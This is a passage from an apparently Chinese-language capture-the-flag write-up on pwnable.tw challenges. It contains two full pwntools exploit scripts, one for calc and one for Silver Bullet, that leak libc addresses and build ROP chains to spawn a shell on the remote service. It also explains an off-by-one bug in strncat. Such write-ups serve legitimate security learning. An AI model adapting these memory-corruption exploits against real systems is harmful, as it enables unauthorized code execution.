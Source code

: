 本地很快就通了，但是打远程时发现远程得到的地址和本地基本不一样。虽然主页有写用的是`Ubuntu 16.04/18.04`的docker image，但我实测发现地址的分布仍然不一样。假设需要泄漏的目标地址为x，无论是16.04还是18.04，x都在偏移24的地方；但远程偏移是28。而且这个地址的末尾是`\x00`，我一直拿`b'a'*(4*x-1)+b'\x0a'`去够地址，但想要泄漏这个地址必须不减那个1。又卡了我很久。唉下一次多注意吧
```py
from pwn import *
libc = ELF("./libc_32.so.6")
p=remote("chall.pwnable.tw",10101)
payload=b'a'*(4*7)
p.sendline(payload)
p.recvuntil(payload)
libc.address=u32(p.recv(4))-0x1b0000-0xa
p.sendlineafter(":",'35')
for i in range(24):
    p.sendlineafter(": ",'0')
p.sendlineafter(": ",'+')
for i in range(7):
    p.sendlineafter(": ",str(libc.sym['system']))
p.sendlineafter(": ",str(libc.sym['system']))
p.sendlineafter(": ",str(libc.sym['system']))
p.sendlineafter(": ",str(libc.search(b'/bin/sh').__next__()))
p.interactive()
```

## Silver Bullet

这类没有什么逆向成分的题做起来很舒服（再次点名calc）

漏洞在power_up函数中：
```c
read_input(local_38,0x30 - *(int *)(param_1 + 0x30));
strncat(param_1,local_38,0x30 - *(int *)(param_1 + 0x30));
```
有一个off by one，输入末尾的字符会溢出到`param_1 + 0x30`，覆盖长度属性。只要利用一次溢出将长度属性重置为1，后续`strncat`就会导致`param_1`溢出
```py
from pwn import *
exe = ELF("./silver_bullet_patched")
libc = ELF("./libc_32.so.6")
context.binary = exe
p=remote("chall.pwnable.tw", 10103)
def powerup(desc):
    p.sendlineafter(":",'2')
    p.sendlineafter(":",desc)
def create():
    p.sendlineafter(":",'1')
    p.sendlineafter(":",'a')
def beat():
    p.sendlineafter(":",'3')
def trigger(rop):
    create()
    powerup("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
    powerup("z")
    powerup(rop)
    beat()
trigger(p32(0xffffffff)[:-1]+b'a'*4+p32(exe.plt['puts'])+p32(exe.sym['main'])+p32(exe.got['puts']))
p.recvuntil("!!\n")
libc.address=u32(p.recv(4))-0x5f140
assert libc.address&0xfff==0 #不知道为什么本地会频繁出现泄漏地址失败的情况，反而是远程比较稳定
trigger(p32(0xffffffff)[:-1]+b'a'*4+p32(libc.sym['system'])+p32(exe.sym['main'])+p32(libc.search(b'/bin/sh').__next__()))
p.interactive()
```
## 3x17
